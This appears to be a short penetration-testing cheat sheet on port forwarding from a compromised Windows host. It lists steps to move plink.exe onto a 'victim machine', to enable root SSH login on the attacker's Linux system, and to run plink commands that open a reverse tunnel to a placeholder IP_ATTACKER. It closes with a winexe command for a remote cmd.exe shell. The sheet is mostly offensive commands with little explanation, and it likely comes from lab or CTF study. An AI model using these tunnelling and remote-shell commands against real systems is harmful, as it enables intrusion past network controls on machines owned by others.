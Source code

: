 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
If you have troubles uncomment the Port 22 and change for Port 8888 on file /etc/ssh/sshd_config
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -P 8888 -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

* netstat -ano (You could try also on your own machine)
[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING

* winexe -U user%pass //IP "cmd.exe"
